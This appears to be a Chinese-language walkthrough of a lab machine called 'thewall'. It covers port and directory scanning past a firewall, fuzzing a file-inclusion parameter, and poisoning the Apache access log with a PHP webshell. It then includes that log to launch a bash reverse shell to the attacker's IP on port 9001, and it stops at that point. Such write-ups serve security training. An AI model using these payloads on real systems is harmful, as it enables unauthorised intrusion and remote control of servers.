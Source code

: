 
|   |   |   |
|---|---|---|
|thewall|easy|Akamai  防火墙、绕过wall、fuzz、文件包含利用、exiftool提权、sudo提权、ssh私钥利用|

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p 22,80 192.168.18.238 
```

22，80
### 目录扫描

由于目标靶场安装了Akamai  防火墙，正常的扫描会被拦截。所以使用gobuster扫描的时候增加延时和线程控制
```css
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.18.238 -x php -e --delay 1s -t 1 


http://192.168.18.238/includes.php
```
这里扫描出来了一个文件包含名字的文件，尝试对其进行fuzz 参数。这里发现任何访问的响应都是200和长度为2，所以还需要设置排除项
```c
wfuzz -c --hc=404 --hh=2 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.18.238/includes.php?FUZZ=/etc/passwd'


000217299:   200        28 L     41 W       1460 Ch    "display_pag“
```

得到传入的参数为display_page


# GETSHELL
通过bp 爆破了发现利用访问日志记录。

那我们可以尝试写入webshell到日志，然后取包含它

```c
┌──(kali㉿kali)-[~]
└─$ nc 192.168.18.238 80
GET <?php system($_GET['cmd']); ?>

http://192.168.18.238/includes.php?display_page=/var/log/apache2/access.log&cmd=bash -i >& /dev/tcp/192.168.44.128/9001 0>&1
```

http://192.168.18.238/includes.php?display_page=/var/log/apache2/access.log&cmd=bash+-c+%27bash+-i+%3E%26/dev/tcp/192.168.44.128/9001+0%3E%261%27